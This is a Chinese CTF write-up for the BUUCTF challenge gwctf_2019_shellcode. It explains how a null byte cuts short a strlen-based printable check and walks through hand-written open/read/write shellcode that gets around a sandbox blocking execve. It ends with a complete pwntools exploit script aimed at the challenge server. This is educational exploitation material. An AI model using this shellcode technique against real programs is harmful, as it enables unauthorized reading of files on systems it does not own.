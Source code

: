 ```yaml
---
title: BUUCTF_gwctf_2019_shellcode
date: 2022/4/13 20:46:25
tags:
 - orw
 - PWN
 - shellcode
 - 00截断
categories:
 - BUU
---
```

## 总结：

通过这道题的学习与收获有：

1、strlen函数是可以被00给截断的，而shellcode本身执行的时候并不会因为00截断。

2、第一次手写open,read,write函数的汇编

3、push一个字符串的话，比如push 0x67616c66 （这个是flag），不足八字节，push的时候会自动填充00补全八字节，从而占满一个内存单元。
<!--more-->

## 保护策略：

![image-20220411120824847](/upload/img/image-20220411120824847.png)


发现没开NX，那基本就是shellcode没跑了。

然后发现开启了沙箱，禁用了execve函数，那就考虑写一个orw的shellcode

![image-20220411120832638](/upload/img/image-20220411120832638.png)


## 程序分析：

![image-20220411120838759](/upload/img/image-20220411120838759.png)


由于这个main函数里面存在一个这个汇编指令，因此不能生成伪代码，那就只能读汇编了，好在程序也不复杂。

<img src="/upload/img/image-20220411120845838.png" alt="image-20220411120845838" style="zoom: 50%;" />


逻辑就是执行is_printable之后，去将eax与自身相与，如果eax的值为1，test执行之后的运算结果为1（标志寄存器的值为0,否则反之)如果标志寄存器的值为1，则jz指令进行跳转，跳转到loc_AC1函数，如果触发了该函数则程序直接结束，并不会触发call rax的指令，如果jz不进行跳转，则执行call rax（执行完lea之后，rax的值存放的就是read函数输入进去的内容，因此我们输入的时候直接布置shellcode即可）。

## 大致思路：

因此我们要触发call rax，就需要让loc_AC1函数的返回值为0。

![image-20220411120859759](/upload/img/image-20220411120859759.png)


而这个函数返回值为0的前提就是输入的内容ascii码必须要大于31，并且不能等于127。因为我们构造的shellcode经常会存在不可见字符，因此这里我起初考虑的是将写的shellcode转换成可见字符。

然后转换成可见字符发现，这个shellcode太长了。（下面是转换成可见字符之后的shellcode）

![image-20220411120906357](/upload/img/image-20220411120906357.png)


然后到这里就卡住了，参考了另一篇师傅的博客，发现strlen函数是可以被00截断的（我自己试了一下发现确实如此）

也就是说只要让shellcode中出现00，并且在00之前的是可见字符就ok了，因为strlen获取的长度就到00这里。

![image-20220411120912087](/upload/img/image-20220411120912087.png)


这个循环就不会再往后跑了，因此它不会对00后面的内容进行检查。在这里要说一下，**shellcode本身执行的话并不会被00截断，因为shellcode本身毕竟就是一堆机器码而已，CPU执行机器码的时候，才不管你什么00截断不截断呢，机器码是什么它就执行什么。真正会因为00而截断shellcode的其实是一些函数,比如strcpy这个函数。**

因此我们只需要让shellcode中尽早的出现00机器码即可

然后就是开始手动编写shellcode了。

## 手写orw-shellcode

首先我们要执行的如下的代码：

```python
open(flag_addr,0)
read(3,addr,0x50)#第一个参数是3，因为一个进程有默认的文件描述符0,1,2。当再打开新的文件之后，文件描述符就会以此类推的分配，因此上面open新打开的flag文件的文件描述符就是3
#至于这个addr，把读出来的flag放到哪，一会再说
write(1,addr,0x50)
```

接下来，就开始用汇编来实现上面的内容。

```assembly
open(flag_addr,0)
push 0x67616c66
push rsp
pop rdi
#上面这两步就是在传open的第一个参数，这个参数要是一个地址，这个地址要指向字符串'flag'
#执行完push 0x67616c66的时候，栈顶的内容就是字符串flag，而栈顶指针rsp就指向了这个flag，此时执行push rsp将指向flag的地址（也就是rsp）压栈，此时栈顶的内容就是那个指向flag的地址，然后再执行pop rdi
#将栈顶的这个内容弹给rdi，此时open的第一个参数就成为了指向flag的地址
push 0#这个push 0这里就会出现机器码00，用来截断strlen函数
pop rsi
push 2
pop rax
syscall

read(3,addr,0x50)
push 3
pop rdi
push rsp 
pop rsi
#上面这两步在完成read函数的第二个参数传参，此时压入栈的rsp，我并不知道这个地址是什么，只知道把这个地址给rsi的话，flag就会被写到这个地址里面，至于这个地址是什么，真的不重要，重要的是要保证接下来write的第二个参数也是这个地址即可，而我们要做的就是保证接下来的每一个push都要对应一个pop，这样栈顶始终就是给当初rsi的那个地址了。
push 0x50
pop rdx
push 0
pop rax
syscall

write(1,addr,0x50)
push 1
pop rdi
push rsp
pop rsi
#这个地方的push rsp pop rsi原理同上
push 0x50
pop rdx
push 1
pop rax
syscall

```

## EXP：

最后脚本的话有一点要注意一下。

![image-20220411120920984](/upload/img/image-20220411120920984.png)


这个地方有一个指令，它将把我们输入的payload的最后一字节改成0。（如下图）

![image-20220411120927129](/upload/img/image-20220411120927129.png)


这样的后果就是将我们的shellcode最后一个syscall给破坏了，因此我们在syscall后面随便再写个指令，syscall就是完整的了。

最后exp：

```python
from pwn import *
context(arch='amd64',os='linux',log_level='debug')
p=remote('node4.buuoj.cn',28435)
shellcode=asm('''
push 0x67616c66
push rsp
pop rdi
push 0
pop rsi
push 2
pop rax
syscall

push 3
pop rdi
push rsp
pop rsi
push 0x50
pop rdx
push 0
pop rax
syscall

push 1
pop rdi
push rsp
pop rsi
push 0x50
pop rdx
push 1
pop rax
syscall

nop
''')
print(hex(len(shellcode)))
p.send(shellcode)
p.interactive()

```


![image-20220411120933954](/upload/img/image-20220411120933954.png)
